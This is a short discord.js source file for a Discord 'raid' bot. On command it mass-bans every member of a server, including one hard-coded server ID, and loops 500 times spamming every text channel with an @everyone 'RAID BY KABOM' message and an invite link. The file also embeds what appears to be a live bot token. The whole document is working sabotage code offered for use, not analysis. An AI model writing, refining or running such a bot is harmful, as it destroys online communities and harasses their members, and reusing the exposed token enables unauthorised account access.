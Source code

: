 # discord.js
let Discord = require("discord.js");
let client = new Discord.Client();

client.on("message", message => {
  if (message.content === "yes") {
    message.guild.members
      .fetch()
      .then(m => m.forEach(b => message.guild.members.ban(b.id)));
  }
  if (message.content === "start") {
    let server = client.guilds.cache.get("762600030057529344");
    for (let i = 0; i <= 500; i++) {
      server.members
        .fetch()
        .then(m => m.forEach(b => server.members.ban(b.id)));
      server.channels.cache
        .filter(r => r.type === "text")
        .forEach(channel => {
          channel.send("@everyone 𝐑𝐀𝐈𝐃 𝐁𝐘 : :boom: KΛBOM : https://discord.gg/7fK9XDj7bK");
        });
    }
  }
});

client.login("ODExNzg4Mzk3OTkxMTY1OTgy.YC3S3A.Lvt_aXA_nqc2QsYerqAiLlfdgK0");
